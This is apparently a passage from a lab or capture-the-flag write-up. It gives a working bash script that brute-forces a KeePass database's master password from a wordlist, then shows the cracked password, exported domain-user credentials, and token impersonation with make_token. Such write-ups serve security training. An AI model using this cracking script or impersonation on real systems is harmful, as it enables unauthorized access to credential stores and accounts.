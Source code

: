 ```
# Check if necessary files exist
if [[ ! -f "$PASSWORD_FILE" ]]; then
    echo "Password file not found: $PASSWORD_FILE"
    exit 1
fi

if [[ ! -f "$KEEPASS_FILE" ]]; then
    echo "KeePass database not found: $KEEPASS_FILE"
    exit 1
fi

# Function to test a single password
check_password() {
    PASSWORD="$1"
    if echo "$PASSWORD" | keepassxc-cli ls "$KEEPASS_FILE" > /dev/null 2>&1; then
        echo "Password successful: $PASSWORD"
        exit 0
    fi
}

export -f check_password
export KEEPASS_FILE

# Process passwords in parallel
cat "$PASSWORD_FILE" | parallel -j$(nproc) check_password {}

echo "No valid password found."
exit 1

```

After few minutes we get the password and open the file, which contains the creds for `domjon` user within the domain
```
└─$ ./keepass_brute.sh /usr/share/seclists/Passwords/Leaked-Databases/rockyou-30.txt it.kdbx
Password successful: 741852
```
```
└─$ keepassxc-cli export it.kdbx --format csv
Enter password to unlock it.kdbx: 
"Group","Title","Username","Password","URL","Notes","TOTP","Icon","Last Modified","Created"
"Root","domjoin","domjoin","hKvhexY5BtAgtWAY","","","","0","2024-11-29T15:49:14Z","2024-11-29T15:49:01Z"
```

Now, we can create a new token with `make_token` command to impersonate `domjoin` user

![](13.png)

In case we want to revert back to previous token, we can use `rev2self`

![](14.png)
